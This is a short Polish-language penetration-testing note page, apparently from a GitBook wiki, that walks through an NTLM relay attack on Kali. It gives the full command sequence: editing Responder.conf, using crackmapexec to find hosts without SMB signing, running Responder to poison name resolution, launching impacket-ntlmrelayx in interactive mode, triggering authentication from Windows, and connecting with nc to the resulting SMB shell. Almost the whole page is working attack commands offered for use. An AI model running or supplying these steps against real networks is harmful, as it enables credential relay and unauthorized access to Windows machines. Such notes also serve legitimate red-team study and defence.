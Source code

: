 ```yaml
---
layout:
  title:
    visible: false
  description:
    visible: false
  tableOfContents:
    visible: false
  outline:
    visible: false
  pagination:
    visible: false
---
```


# połączenie Respondera i NTLMRelayX Kali

{% code overflow="wrap" fullWidth="true" %}
```python
#edycja pliku konfiguracyjnego
vim /etc/responder/Responder.conf
SMB = Off

#sprawdzamy hosty, które nie potrzebują SMB signing (potem możemy sprawdzić plik targetczy zawiera dobre komputery do ataku)
crackmapexec smb 10.20.10.0/24 --gen-relay-list target.txt

#właczamy respondera żeby odpowiadał
responder -I eth0 -v
```
{% endcode %}

{% code fullWidth="true" %}
```python
#na drugiej konsoli
impacket-ntlmrelayx -tf target.txt -smb2support -i
```
{% endcode %}

na Windowsie w exploratorze wpisujemy jakiś adres smb np \\\fileserver234 i Responder odpowie

w Kali powinien być komunikat Authenticating against…SUCCEED

i podany jest poniżej port na którym mamy się połaczyć

```python
nc 127.0.0.1 11000
```

